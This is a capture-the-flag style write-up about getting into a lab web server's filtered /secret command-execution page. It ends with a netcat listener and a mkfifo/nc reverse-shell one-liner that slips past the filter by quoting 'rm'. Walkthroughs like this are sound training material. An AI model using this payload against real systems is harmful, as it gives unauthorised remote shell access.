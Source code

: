   
We start a second scan on `http://10.10.10.10/secret/` and a scan on http://10.10.10.10 with a medium list. But nothing more there.
  

---



  
## <ins>Visit web-page /secret:</ins> 

firefox: `http://10.10.10.10/secret`
  
We will find there a command execution window. In the source code we find nothing interesting.   
so we head over to run some commands.

## <ins>Command execution on /secret:</ins> 
  
When we enter commands like: 'nc', 'python', 'bash','php','cat'... (you can check the full list in /var/www/html/secret/index.php on the system) we get an imaged that with the question "Are you a hacker".  
Now we know that this will be the filters mentioned in the "notes.txt" file from the ftp server.
After some time i find commands that worked:

- pwd
- dir
- id, uname -a,
  
With this commands you could enumerate the system manual but the thing we will do is:   
**Get a reverse shell running.**
  


---
  

## <ins>Reverse shell:</ins>
  
  
I tried a lot of reverse shells of [highoncoffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/) but nothing worked.
  
So i started googling to find a way to bypass the filter.
  
With searches like `php command injection filter bypass` i find a github page, which i know and visite before.
Its [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection) from "swisskyrep".
  
You find there some ways to bypass via `single quote`, `double quote` and `backslash` in the category "Bypass without spaces". I use the double quote one.  

So a combination of the bypass and a remote shell command give me the reverse shell:
  
@local (start listener):  
`rlwrap nc -lvnp 9001`

@secret:  
`r"m" /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <yourip> 9001 >/tmp/f`
